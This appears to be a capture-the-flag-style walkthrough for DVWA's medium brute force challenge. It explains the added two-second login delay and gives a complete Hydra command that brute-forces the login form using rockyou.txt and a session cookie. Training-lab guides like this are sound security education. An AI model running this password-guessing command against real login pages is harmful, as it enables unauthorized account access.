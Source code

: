 <b>Challenge URL:</b> /dvwa/vulnerabilities/brute/
<br>
<b>Objective:</b> Brute force the administrator's password.
<br>
<b>Bonus objective:</b> Find the other four users' usernames and brute force each password.
<br>
<b>Tools needed:</b> Hydra
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/README.md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/Challenge%2001:%20Brute%20Force.mdd" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

Let's start by clicking the "View Source" button on the bottom right of the challenge.

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/brutesource.png" width="500">

It looks like the developer added a timeout for failed logins, causing the program to sleep for two seconds.

<h3><b>Crafting a New Exploit</b></h3>

Very little should change for this version of the challenge, including how we enumerate usernames. The only difference is the speed you'll discover each credential set. Let's run our old command, changing the cookie values as appropriate, and verify our assumption.

<code>hydra -L users.txt -P rockyou.txt -s 80 dvwa http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=medium; PHPSESSID=[your_value_here]"</code>

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/brutesuccess.png" width="500">

Yep, the only thing that's changed is the time it took to finish. Challenge complete!
